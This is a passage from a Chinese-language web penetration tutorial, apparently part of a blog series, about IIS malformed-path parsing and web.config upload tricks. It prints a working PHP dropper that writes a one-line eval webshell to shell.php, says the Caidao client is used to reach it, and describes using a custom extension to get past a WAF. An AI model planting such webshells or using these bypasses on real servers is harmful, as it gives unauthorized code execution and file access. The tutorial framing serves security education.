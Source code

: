 为什么 IIS 高版本会存在这个漏洞呢？  
这是因为 IIS 高版本在搭建 php 网站的时候，它会开启 CGI/FastCGI，并且 php 配置文件选项默认开启。所以，该畸形解析漏洞不光存在于 IIS7、IIS7.5，还有 IIS8、IIS10 等版本。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhFPric5W35rgXKmmheAqLKdUhspYfyRP0eVpsiazhw3XJxpek0kIicm6pLg/640?wx_fmt=png)

接着我们演示另一个代码，将 “1.jpg” 内容修改如下，直接写入 shell。

```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>'); ?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhFSpBtcxGWZH4Sd2KxYhM91rY9Zf5NRaeJ28WSXK1b7v2QN9RX9wXGXQ/640?wx_fmt=png)

访问 “/1.jpg/shell.php” 显示的内容为空。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhFseHghTtk8iaCSPjr4E9KjtuwnJPpTn8EU8lH16djtUPLWSktbKaYQkA/640?wx_fmt=png)

但是此时会在服务器生成一个名为 “shell.php” 的文件，如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhFy5zCLmSI7mbb2Xqx1FDn15aqbibQ5bu6oydCCToRHq932dEbiadws33Q/640?wx_fmt=png)

并且 “shell.php” 包含了我们的一句话木马。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhF6RLy2zdSlps9UB4PVm5uibOldBjB1thhVX4iaK5lz7o93tykTYuD4Fkw/640?wx_fmt=png)

这样通过 Caidao 即可访问该页面，并获取服务器的文件目录。

3.aspx 漏洞
---------

aspx 它有一个 “web.config” 的配置文件，它规定我们上传文件的后缀。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhFArGQVV70bjuUhoR1peQFJNU7uiahJicmSAx00QuaXPhXHH1PdsNdgGrQ/640?wx_fmt=png)

我们可以自定一个后缀名来解析 aspx 文件。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhFW46bq5KxSeVtNic4js64Ug8MseN6VicGAUGcUAoegG2tWaPWz8aroPibw/640?wx_fmt=png)

换句话说，当我们遇到可以上传配置文件的时候，则上传我们修改好的配置文件，然后自定义一个后缀名如 “.ad”，从而绕过 WAF 或检测，上传成功之后它会解析成 aspx 并执行。如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhFqQTFBYOoRH77fkh8wERfickamP06BahC0g1tJsjXxluQ4lAJNmPl1pg/640?wx_fmt=png)

所以，当我们遇到可以上传配置文件的时候，通过该方法实现绕过，从而提权。

三. 总结
=====

写到这里，这篇基础性文章就此结束，后面会继续分享文件上传漏洞。作者是这个领域的菜鸟一枚，希望与您共同进步，共勉。如果文章对您有帮助，将是我最大的鼓励，点赞、评论、阅读都行，与您同行，加油。

前文分享（下面的超链接可以点击喔）：

*   [[网络安全] 一. Web 渗透入门基础与安全术语普及](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247483786&idx=1&sn=d9096e1e770c660c6a5f4943568ea289&chksm=cfccb147f8bb38512c6808e544e1ec903cdba5947a29cc8a2bede16b8d73d99919d60ae1a8e6&scene=21#wechat_redirect)
    
*   [[网络安全] 二. Web 渗透信息收集之域名、端口、服务、指纹、旁站、CDN 和敏感信息](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247483849&idx=1&sn=dce7b63429b5e93d788b8790df277ff3&chksm=cfccb104f8bb38121c341a5dbc2eb8fa1723a7e845ddcbefe1f6c728568c8451b70934fc3bb2&scene=21#wechat_redirect)
    